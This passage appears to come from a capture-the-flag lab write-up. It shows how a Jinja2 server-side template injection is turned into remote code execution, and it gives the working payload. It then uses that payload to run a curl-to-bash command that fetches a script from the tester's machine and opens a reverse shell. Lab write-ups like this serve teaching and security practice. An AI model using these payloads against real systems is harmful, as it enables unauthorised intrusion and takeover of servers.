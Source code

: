 <figure><img src="../../.gitbook/assets/goodgames44.png" alt=""><figcaption></figcaption></figure>

So… we can convert SSTI to RCE using this payload: `{{config.__class__.__init__.__globals__['os'].popen('<your code>').read()}}`

Let’s try to deploy a Rev Shell using this! As we know that the target system uses python, let’s try to execute a python script. To make it easier, I have created a file in my computer called pwn and shared it via http.server:

<figure><img src="../../.gitbook/assets/goodgames45.png" alt=""><figcaption></figcaption></figure>

If we execute the command `curl 10.10.14.234/pwn | bash` in the target machine, it should read the pwn file and send it to the bash to interpret it and establish a connection with my machine. Let’s see if it works:

`{{config.__class__.__init__.__globals__['os'].popen('curl 10.10.14.234/pwn | bash').read()}}`

<figure><img src="../../.gitbook/assets/goodgames46.png" alt=""><figcaption></figcaption></figure>
